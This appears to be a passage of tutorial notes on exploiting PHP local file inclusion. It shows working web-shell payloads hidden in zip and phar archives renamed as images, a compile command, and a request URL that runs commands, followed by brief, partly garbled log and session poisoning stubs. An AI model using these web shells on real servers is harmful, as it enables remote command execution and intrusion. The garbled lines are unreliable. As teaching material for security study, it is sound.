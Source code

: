 We can utilize the [zip](https://www.php.net/manual/en/wrappers.compression.php) wrapper to execute PHP code. However, this wrapper isn't enabled by default, so this method may not always work. To do so, we can start by creating a PHP web shell script and zipping it into a zip archive (named `shell.jpg`), as follows:

```shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

Once we upload the `shell.jpg` archive, we can include it with the `zip` wrapper as (`zip://shell.jpg`), and then refer to any files within it with `#shell.php` (URL encoded). Finally, we can execute commands as we always do with `&cmd=id`, as follows:

## Phar Upload

Finally, we can use the `phar://` wrapper to achieve a similar result. To do so, we will first write the following PHP script into a `shell.php` file:

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

This script can be compiled into a `phar` file that when called would write a web shell to a `shell.txt` sub-file, which we can interact with. We can compile it into a `phar` file and rename it to `shell.jpg` as follows:


```shell
 php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

Once we upload it to the web application, we can simply call it with `phar://` and provide its URL path, and then specify the phar sub-file with `/shell.txt` (URL encoded) to get the output of the command we specify with (`&cmd=id`), as follows:

```http
http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```

## Log poisoning

We have seen in previous section that if we include any file that contains PHP code as long as the function has execute privileges.

Writing PHP cod in a filed we control get logged in to a log file (i.e poison/contaminate). 

## PHP Session Poisoning

Most PHP web applications utilize `PHPSESSID` cookies, which can hold specific user-related data on the back-end, so the web application can keep track of user details through their cookies. These details are stored in `session`

